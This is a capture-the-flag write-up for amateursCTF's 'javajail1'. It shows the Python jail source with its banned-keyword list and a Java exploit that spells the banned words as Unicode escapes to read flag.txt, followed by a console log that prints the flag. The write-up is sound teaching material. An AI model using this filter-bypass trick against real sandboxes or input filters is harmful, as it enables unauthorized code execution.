

## jail/javajail1

solved by vulnx https://vulnx.github.io/

## chall description

Good luck getting anything to run.

nc chal.amt.rs 2103



### Analysis

```python
#!/usr/local/bin/python3

import subprocess

BANNED = ['import', 'class', 'Main', '{', '}'] # good luck getting anything to run

print('''
      Welcome to the Java Jail.
      Have fun coding in Java!
      ''')

print('''Enter in your code below (will be written to Main.java), end with --EOF--\n''')

code = ''
while True:
    line = input()
    if line == '--EOF--':
        break
    code += line + '\n'

for word in BANNED:
    if word in code:
        print('Not allowed')
        exit()

with open('/tmp/Main.java', 'w') as f:
    f.write(code)

print("Here's your output:")
output = subprocess.run(['java', '-Xmx648M', '-Xss32M', '/tmp/Main.java'], capture_output=True)
print(output.stdout.decode('utf-8'))
```

again we get to execute any java program but we have a list of banned words which must be avoided ( we will see how to tackle those in a while but for now let's make a sample program to print out the flag )

```java
import java.io.*;

class main {
    public static void main(String args[]) throws Exception {
            FileInputStream fis = new FileInputStream("./flag.txt");
            BufferedReader br = new BufferedReader(new InputStreamReader(fis));
            String line;
            while ((line = br.readLine()) != null) {
                System.out.println(line);
            }
            br.close();
    }
}
```

### Vulnerability

> A compiler for the Java programming language ("Java compiler") first recognizes Unicode escapes in its input, translating the ASCII characters `\u` followed by four hexadecimal digits to the UTF-16 code unit ([§3.1](https://docs.oracle.com/javase/specs/jls/se7/html/jls-3.html#jls-3.1 "3.1. Unicode")) of the indicated hexadecimal value, and passing all other characters unchanged.
> 
> ~ [Source](https://docs.oracle.com/javase/specs/jls/se7/html/jls-3.html)

Basically if we replace the `c` of `class` with `\u0063` in the source code and compile it again, we will see that it compiles without any error and prints the flag locally.

### Exploit

If we repeat the same for every banned word in the source code we get the following java code:

```java
\u0069mport java.io.*;

\u0063lass \u004dain \u007b
    public static void main(String args[]) throws Exception \u007b
      FileInputStream fis = new FileInputStream("./flag.txt");
      BufferedReader br = new BufferedReader(new InputStreamReader(fis));
      String line;
      while ((line = br.readLine()) != null) \u007b
          System.out.println(line);
      \u007d
      br.close();
    \u007d
\u007d
```

```console
$ nc chal.amt.rs 2103

      Welcome to the Java Jail.
      Have fun coding in Java!

Enter in your code below (will be written to Main.java), end with --EOF--

\u0069mport java.io.*;

\u0063lass \u004dain \u007b
    public static void main(String args[]) throws Exception \u007b
      FileInputStream fis = new FileInputStream("./flag.txt");
      BufferedReader br = new BufferedReader(new InputStreamReader(fis));
      String line;
      while ((line = br.readLine()) != null) \u007b
          System.out.println(line);
      \u007d
      br.close();
    \u007d
\u007d
--EOF--

Here's your output:
amateursCTF{yeah_this_looks_like_a_good_feature_to_me!}
```

### Flag

`amateursCTF{yeah_this_looks_like_a_good_feature_to_me!}`
